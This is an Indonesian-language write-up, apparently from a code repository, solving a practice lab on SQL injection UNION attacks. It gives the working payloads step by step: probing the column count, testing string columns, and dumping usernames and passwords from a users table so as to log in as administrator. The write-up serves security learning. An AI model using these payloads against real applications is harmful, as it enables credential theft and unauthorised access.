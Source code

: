 # SQL Injection UNION attack, retrieving data from other tables

---

## Challenge Overview

**Title:** SQL Injection UNION attack, retrieving data from other tables
**Category:** Injection (SQLi)

Lab ini meminta kita untuk mengeksploitasi **SQL Injection** melalui filter kategori produk, lalu menggunakan teknik **UNION SELECT** untuk mengekstrak data sensitif dari tabel lain. Target kita adalah tabel `users` yang berisi **username** dan **password**. Untuk menyelesaikan lab, kita harus login sebagai **administrator** menggunakan kredensial yang berhasil didapat.

---

## Tools Used

* **Burp Suite** → untuk intercept & modifikasi request kategori produk.
* **Web Browser** → untuk login dengan hasil kredensial.

---

## Step by Step Solution

### 1. Identifikasi jumlah kolom

Kirimkan payload sederhana untuk uji jumlah kolom:

```sql
'+UNION+SELECT+NULL--        → error
'+UNION+SELECT+NULL,NULL--   → berhasil
```
![alt text](assets/mandiri18.png)
![alt text](assets/mandiri19.png)

---

### 2. Uji kolom yang bisa menampilkan string

Kita coba masukkan string ke tiap kolom:

```sql
'+UNION+SELECT+'abc','def'--
```
![alt text](assets/mandiri20.png)
* Hasil: query berjalan dan string `abc` serta `def` muncul di halaman → berarti **kedua kolom kompatibel dengan string**.

---

### 3. Ekstrak data dari tabel `users`

Gunakan payload untuk menampilkan isi tabel `users`:

```sql
'+UNION+SELECT+username,password+FROM+users--
```
![alt text](assets/mandiri21.png)
* Hasil: halaman menampilkan daftar username dan password dari database.

---

### 4. Login sebagai administrator

* Temukan entri dengan `username = administrator`.
* Catat `password` yang terkait.

    ![alt text](assets/mandiri22.png)
* Gunakan kredensial tersebut di halaman login aplikasi.
   ![alt text](assets/mandiri24.png) 
* Setelah berhasil login sebagai **administrator**, lab otomatis **Solved** 
    ![alt text](assets/mandiri23.png)

